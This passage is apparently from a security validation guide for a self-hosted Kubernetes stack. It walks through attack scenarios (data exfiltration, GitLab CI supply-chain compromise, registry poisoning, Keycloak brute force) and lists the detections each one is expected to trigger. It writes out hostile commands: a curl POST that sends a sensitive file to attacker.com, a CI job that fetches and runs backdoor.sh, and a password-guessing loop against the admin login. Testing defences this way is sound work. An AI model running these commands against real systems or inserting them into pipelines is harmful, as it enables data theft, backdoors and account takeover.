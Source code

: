 **Step 3: Data Exfiltration Attempt**

```bash
# Try to POST data to external server
kubectl exec -n downloads compromised-pod -- \
  curl -X POST -d @/data/sensitive.txt https://attacker.com

# Expected: Blocked by L7 policy (only GET allowed) or FQDN policy
```

### Scenario 2: Supply Chain Attack via GitLab CI

**Step 1: Malicious Pipeline**

Create malicious `.gitlab-ci.yml`:

```yaml
malicious_job:
  script:
    - curl -O https://attacker.com/backdoor.sh
    - chmod +x backdoor.sh
    - ./backdoor.sh
```

**Expected Detections:**
- Tetragon: `gitlab-runner-security` policy detects suspicious download
- L7 Policy: FQDN policy blocks connection to attacker.com

**Step 2: Container Registry Poisoning**

```bash
# Attempt to push malicious image to Harbor
docker tag malicious-image harbor.selfhosted/library/backdoor:latest
docker push harbor.selfhosted/library/backdoor:latest

# Expected:
# - L7 policy requires authentication (Bearer token)
# - Tetragon logs all pushes for audit
# - Harbor Trivy scans detect malicious content
```

### Scenario 3: Authentication Bypass Attack

**Step 1: Brute Force Keycloak**

```bash
# Automated login attempts
for i in {1..100}; do
  curl -X POST http://keycloak.security:8080/realms/master/protocol/openid-connect/token \
    -d "username=admin&password=attempt$i"
done

# Expected:
# - L7 rate limiting (if configured)
# - Alert on high authentication failure rate
```
